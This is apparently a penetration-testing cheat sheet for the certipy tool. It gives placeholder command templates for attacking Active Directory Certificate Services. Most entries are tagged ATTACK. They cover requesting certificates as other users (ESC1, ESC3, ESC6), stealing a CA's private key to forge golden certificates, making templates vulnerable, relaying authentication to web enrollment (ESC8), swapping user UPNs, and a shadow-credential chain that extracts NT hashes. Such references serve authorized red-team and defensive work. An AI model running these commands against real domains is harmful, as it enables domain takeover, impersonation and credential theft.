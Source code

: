 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential

## certipy - list certificate templates
#plateform/linux #target/remote #cat/RECON
```
certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> 
```

## certipy - request certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority>
```

## certipy - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> 
```

## certipy - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc_ip> -ldap-shell
```

## certipy - Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -backup -ca <certificate-authority> -target-ip <ca-ip>
```

## certipy - Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain> -crl ldap://<dc_ip>:389
```

## certipy - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -upn <targeted-user>@<domain>
```

## certipy - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## certipy - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old
```

## certipy - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -target 'http://<ca-fqdn>'
```

## certipy - relay domain controller authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn> -template 'DomainController' -target 'http://<ca-fqdn>'
```

## certipy - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain> -p '<password>' -user <targeted-user> -upn <administrator-user>
```

## certipy - Get NT hash - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain> -p '<password>' -account <targeted-user>
```